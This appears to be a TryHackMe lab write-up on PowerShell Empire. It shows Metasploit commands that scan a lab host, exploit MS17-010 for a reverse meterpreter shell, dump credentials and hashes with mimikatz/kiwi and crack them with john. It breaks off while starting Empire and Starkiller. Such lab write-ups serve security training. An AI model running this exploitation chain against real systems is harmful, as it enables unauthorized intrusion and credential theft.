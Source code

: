 Website [URL](https://tryhackme.com/room/rppsempire)

Powershell Empire? This is a command and control server

# Enum
want to use `msfconsole` for this whole thing

lets begin by starting the database
```bash
sudo msfdb init
msfconsole -q
```

next we will do an nmap scan
```bash
db_nmap -A --script vuln -vv -oA Empire 10.10.159.89
```

now that we have data inside our database we can check the open ports and services on the host. as well as vulnerabilities. 445 is open
```bash
services
hosts
vulns
```

based on the nmap script, this is vulnerable to MS17-010. lets run a checker
```bash
search ms17-010
use 3
options
set rhosts 10.10.159.89
exploit
```

looks like it is so lets use the proper payload now
```bash
search ms17-010
use 0
options
set rhosts 10.10.159.89
set lhost tun0
exploit
```

we get a reverse meterpreter shell since we didnt change the payload. we can do a couple of things here
```bash
getuid
sysinfo
load kiwi #loads mimikatz
creds_all #dumps creds
hashdump  #dumps hashes
```

we can crack the password
```bash
john empire.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

lets now use Powershell Empire as intended. we can get it from [here](https://github.com/BC-SECURITY/Empire)
```bash
cd /opt
git clone https://github.com/BC-SECURITY/Empire
cd Empire
./setup/install.sh
```

lets also install the GUI version called [Starkiller](https://github.com/BC-SECURITY/Starkiller/releases)
```bash
chmod +x starkiller.AppImage
```

now lets start both Empire and Starkiller